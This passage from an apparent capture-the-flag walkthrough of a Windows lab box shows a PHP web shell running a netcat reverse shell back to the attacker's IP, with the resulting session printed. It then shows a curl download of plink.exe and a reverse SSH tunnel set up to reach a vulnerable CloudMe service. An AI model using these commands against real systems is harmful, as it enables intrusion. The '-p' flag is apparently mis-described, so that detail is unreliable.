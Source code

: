 Where:
- `10.10.14.18` is the IP assigned to my machine

**->** After that, `nc.exe` will be present on the target machine.

To connect back to the attacking machine I set up a netcat listener on port `4444` and launch the following command from the browser:

**http://10.10.10.198:8080/upload/kamehameha.php?telepathy=nc.exe 10.10.14.18 4444 -e cmd.exe**

Now I have a stable netcat shell:

{{< highlight html >}}
nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.14.18] from (UNKNOWN) [10.10.10.198] 49682
Microsoft Windows [Version 10.0.17134.1610]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\xampp\htdocs\gym\upload>whoami
whoami
buff\shaun

C:\xampp\htdocs\gym\upload>
{{< /highlight >}}

# Privilege Escalation

Under `C:\Users\shaun\Downloads\` there is a program named **CloudMe_1112.exe** running as `Local System`. Searching for that program I discover that is vulnerable to buffer overflow.
The exploit is availble here: https://www.exploit-db.com/exploits/48389

It runs on port `8888`, which is unaccessible from my attacking machine, so how can I exploit that service? Setting up a **SSH Reverse Tunnel**!

**Reverse SSH tunneling allows you to use an established connection to set up a new connection from your local computer back to the remote computer.**

This means that I will be able to run the buffer overflow exploit on the attacking machine (mine) and have it executed  against the target machine!

First of all we need to download `plink.exe` on the target machine in the same way we downloaded netcat:
**http://10.10.10.198:8080/upload/kamehameha.php?telepathy=curl -O 10.10.14.18:8888/plink.exe**

Then set up the SSH Remote Tunnel from the web server:

**1.** From the attacking machine enable the ssh service:
{{< highlight html >}}
service ssh start
{{< /highlight >}}

**2.** On the web server set up the SSH Reverse Tunnel:
{{< highlight html >}}
plink.exe -l root -p toor -R 4444:127.0.0.1:8888 10.10.14.18
{{< /highlight >}}
Where:
- `-l` specifies the user on the attacking machine
- `-p` specifies the user password
- `-R` stands for remote. Everything running on the remote host `10.10.14.18` on port `4444` will be executed on the web server (`localhost`) at `8888`!
